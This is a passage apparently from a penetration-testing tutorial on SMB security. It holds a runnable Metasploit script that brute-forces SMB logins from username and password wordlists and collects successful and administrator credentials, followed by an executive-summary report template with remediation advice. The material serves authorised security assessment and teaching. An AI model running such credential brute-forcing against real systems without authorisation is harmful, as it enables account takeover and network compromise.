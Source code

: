 ```bash
msfconsole -q -x "
use auxiliary/scanner/smb/smb_login;
set RHOSTS file:smb_targets.txt;
set USER_FILE /usr/share/wordlists/common_users.txt;
set PASS_FILE /usr/share/wordlists/passwords.txt;
set THREADS 5;
set VERBOSE false;
exploit;
creds;
exit
" > metasploit_results.txt

# Phase 4: Parse Results and Generate Report
echo "[+] Phase 4: Results analysis" | tee -a $LOGFILE
SUCCESSFUL_CREDS=$(grep "Success:" metasploit_results.txt | wc -l)
ADMIN_ACCESS=$(grep "Administrator" metasploit_results.txt | wc -l)

echo "[+] Assessment Summary:" | tee -a $LOGFILE
echo "    - SMB hosts discovered: $(echo $SMB_HOSTS | wc -w)" | tee -a $LOGFILE
echo "    - Successful credentials: $SUCCESSFUL_CREDS" | tee -a $LOGFILE
echo "    - Administrative access: $ADMIN_ACCESS" | tee -a $LOGFILE

echo "[+] Assessment complete. Review $LOGFILE for details." | tee -a $LOGFILE
```

---

## 📝 Writing Professional Reports

### **📋 Executive Summary Template:**
```markdown
## SMB Security Assessment - Executive Summary

**Assessment Target:** [target_organization]
**Assessment Date:** [date_range]
**Methodology:** SMB service exploitation via Metasploit framework
**Risk Level:** [CRITICAL/HIGH/MEDIUM/LOW]

### Key Findings:
- **SMB Services Identified:** [number] systems with exposed SMB services
- **Credential Weaknesses:** [number] systems with weak/default credentials
- **Administrative Access:** [number] systems compromised with admin privileges
- **Business Impact:** Full system compromise possible via network protocols

### Immediate Actions Required:
1. **Credential Security:** Implement strong password policies immediately
2. **Service Hardening:** Disable unnecessary SMB services
3. **Network Segmentation:** Isolate critical systems from general network
4. **Monitoring:** Deploy SMB access logging and alerting

### Risk Assessment:
- **Likelihood:** HIGH (automated tools can exploit these vulnerabilities)
- **Impact:** CRITICAL (full system compromise and lateral movement possible)
- **Overall Risk:** CRITICAL
```

